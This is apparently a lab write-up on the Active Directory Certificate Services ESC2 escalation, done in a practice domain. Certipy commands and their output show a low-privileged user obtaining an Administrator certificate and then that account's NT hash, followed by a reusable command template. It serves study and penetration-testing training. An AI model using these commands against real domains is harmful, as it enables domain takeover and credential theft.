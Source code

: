 ESC2 in ADCS involves exploiting certificate templates that either specify the Any Purpose Extended Key Usage (EKU) or do not specify any EKU, allowing certificates to be used for various purposes, including client and server authentication and code signing. If these templates also permit specifying a `subjectAltName` (SAN) in the certificate signing request, attackers can request certificates on behalf of any user, similar to ESC1. Even without SAN specification, such certificates can be used to request new certificates. Additionally, a subordinate CA certificate with no EKUs can sign new certificates with arbitrary EKUs, posing significant security risks, although these won't work for domain authentication unless trusted by the NTAuthCertificates object.

The following prerequisites must apply:
- The Enterprise CA must provide enrollment rights to low-privileged users.
-  Manager approval should be turned off.
- No authorized signatures should be necessary.
- The security descriptor of the certificate template must be excessively permissive, allowing low-privileged users to enroll for certificates.
- The certificate template should define Any Purpose Extended Key Usage or have no Extended Key Usage specified.

![[Pasted image 20241005175132.png]]


### Certificate Request

Use the `-upn` to specify the alternative subject. In this case the Administrator:

```bash
garffff@garffff:~/GOAD/adcs/esc2$ certipy req -u khal.drogo@essos.local -p 'horse' -template ESC2 -ca ESSOS-CA -upn administrator@essos.local -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

### Certificate Authentication

We can retrieve the NTLMv1 hash for the targeted user:

```bash
garffff@garffff:~/GOAD/adcs/esc2$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

### Summary

```bash
certipy req -u <user>@<domain> -p '<password>' -template <template> -ca <ca> -upn <target_user>@<domain -dc-ip <adcs_ip>
certipy auth -pfx <target_user>.pfx -dc-ip <dc_ip>
```
